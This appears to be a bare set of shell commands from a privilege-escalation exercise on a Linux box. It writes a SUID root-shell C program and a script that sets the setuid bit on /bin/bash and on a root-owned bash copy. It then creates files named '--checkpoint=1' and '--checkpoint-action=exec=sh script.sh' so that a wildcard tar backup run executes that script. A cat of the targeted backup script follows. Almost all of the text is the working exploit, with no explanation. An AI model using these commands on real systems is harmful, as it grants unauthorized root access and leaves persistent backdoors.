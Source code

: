 https://kishanchoudhary.com/OSWE/php_obj.html


echo 'int main() {' >> suid.c
echo '	setresuid(0,0,0);' >> suid.c
echo '	system("/bin/bash");' >> suid.c
echo '}' >> suid.c


echo '#!/bin/bash' > bash.sh
echo '/bin/bash' >> bash.sh

echo '#!/bin/bash' > script.sh
echo 'chown root.root /home/rene/backup/bash.sh' >> script.sh
echo 'chmod +x /home/rene/backup/bash.sh' >> script.sh
echo 'chmod u+s /home/rene/backup/bash.sh' >> script.sh
echo 'chmod u+s /bin/bash' >> script.sh


echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh script.sh"



cat create_backup.sh
#!/bin/bash

head -c $RANDOM /dev/urandom > "/home/rene/backup/sys-$RANDOM.BAK"
chown rene:rene /home/rene/backup/*.BAK
